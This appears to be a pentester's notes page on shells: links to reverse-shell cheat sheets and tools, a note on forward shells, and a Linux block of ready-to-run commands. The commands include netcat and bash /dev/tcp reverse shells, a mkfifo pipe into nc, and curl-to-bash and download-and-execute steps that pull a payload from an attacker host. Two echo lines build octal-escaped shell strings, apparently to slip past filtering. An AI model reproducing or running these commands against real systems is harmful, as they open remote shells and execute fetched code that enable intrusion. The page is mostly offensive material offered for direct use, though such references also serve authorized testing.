 # Shells

{% hint style="info" %}
There are many types of webshells and Kali includes several in /usr/share/webshells
{% endhint %}

{% code overflow="wrap" fullWidth="true" %}
```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
https://www.revshells.com/
https://github.com/t3l3machus/hoaxshell
https://github.com/ShutdownRepo/shellerator
https://github.com/Fahrj/reverse-ssh
https://github.com/SanjinDedic/pwnThings/tree/main
```
{% endcode %}

## Forward Shell

Shell does not require a persistent network connection so you can establish a proper PTY behind a firewall that has egress ingress filtering to block reverse/bind shells.

[https://github.com/IppSec/forward-shell](https://github.com/IppSec/forward-shell)

## Linux

{% code overflow="wrap" fullWidth="true" %}
```bash
# NETCAT, NOHUP
nc -e /bin/sh 10.0.0.1 4444
nohup nc -e /bin/bash 10.10.14.14 443 &
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f
# SIMPLE BASH REVSHELLS 
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'
# BASH REVSHELL IN 2 STEPS:
# 1 - Create revshell.html with a bash revshell inside
#!/bin/bash
bash -i >& /dev/tcp/10.10.0.0/443 0>&1
# 2 - We host this archive and download it to the target to be interpreted as bash
curl http://10.10.4.20/revshell.html | bash 
######  BASH REVSHELL TRANSFER. PERMIT. EXECUTE. UPLOAD AND EXECUTE
# Transfer a file to the target, give executable permisions and run it to get a revshell.
# Host reverse shell with Python, upload it to the target and execute it
curl $IP/$FILE | bash
(1) curl 192.168.0.0/revshell.sh -o /dev/shm
(2) chmod +x /dev/shm/revshell.sh
(3) bash /dev/shm/revshell.sh
# We can follow the same steps above with wget
wget $IP/$FILE -O $PATH

# IMPORTANT: REMOVE REDIRECTIONS FOR SOME ODD SHELLS LIKE CSH


attacker=192.168.62.187
port=443
echo -n "echo\40\42bash\40%.s\55i\76\46/dev/tcp/${attacker}/${port}\40%.s0\76\46%.s1\42\174bash\73\12"
echo -n "netcat\40%.s${attacker}\40%.s${port}\40\55e\40\57bin\57sh\73\12"
```